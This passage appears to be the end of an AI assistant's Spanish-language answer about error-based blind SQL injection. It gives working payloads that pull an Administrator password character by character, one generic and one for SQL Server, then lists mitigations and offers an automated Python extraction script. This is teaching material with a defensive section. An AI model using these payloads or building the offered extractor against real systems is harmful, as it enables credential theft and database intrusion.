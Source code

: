 ```
' AND (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='Administrator'),1,1)) > 109) THEN 1/0 ELSE 'a' END)='a
```

* SQLServer (conv. a int para forzar error):

```
' AND (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT TOP 1 password FROM users WHERE username='Administrator'),1,1)) > 109) THEN CONVERT(int,'nota') ELSE 'a' END)='a
```

---

## 12) Mitigaciones

* Prepared statements; no concatenar SQL con input.
* No devolver detalles de errores al cliente.
* Menos privilegios en la cuenta DB.
* Monitorizar patrones inusuales y bloquear peticiones que intentan forzar errores repetidamente.

---

Si querés, puedo:

* Añadir ejemplos concretos con la URL-encoding lista para Burp Repeater.
* Generar un script Python que automatice extracción vía errores condicionales (búsqueda binaria).
* Añadir capturas de ejemplo para un lab (requests/responses). ¿Cuál preferís?
